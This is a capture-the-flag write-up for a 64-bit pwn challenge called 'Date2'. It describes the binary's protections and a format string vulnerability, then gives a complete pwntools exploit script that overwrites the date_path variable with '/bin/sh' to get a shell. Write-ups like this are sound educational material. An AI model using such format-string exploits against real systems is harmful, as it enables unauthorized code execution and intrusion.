




# Date2

```
Description
No more buffer overflow this time

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:



So we can see nx and canary are enabled, pie is disabled and Partial Relro instead of Full Relro and again an 64 bit binary. Lets decompile it in ghidra:



We can see that we dont have an overflow but we have an format string vulnerability. Here a good explanation: https://axcheron.github.io/exploit-101-format-strings/

We can also see in ghidra that the date_path is pointing to the .data section. So what we need to do is writing `/bin/sh` to `date_path` with the format string vuln. Pwntools have a good function `fmtstr_payload`, you can also do it manually, check the article above. 

We first need to find our offset:




```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'critical'

# Start program
io = start()

# Payload

date_path = elf.sym['date_path']
payload = fmtstr_payload(6, {date_path : '/bin/sh\x00'})

# Send the payload
io.sendlineafter(b'date?\n', payload)

# Got Shell?
io.interactive()
```

Lets run it:



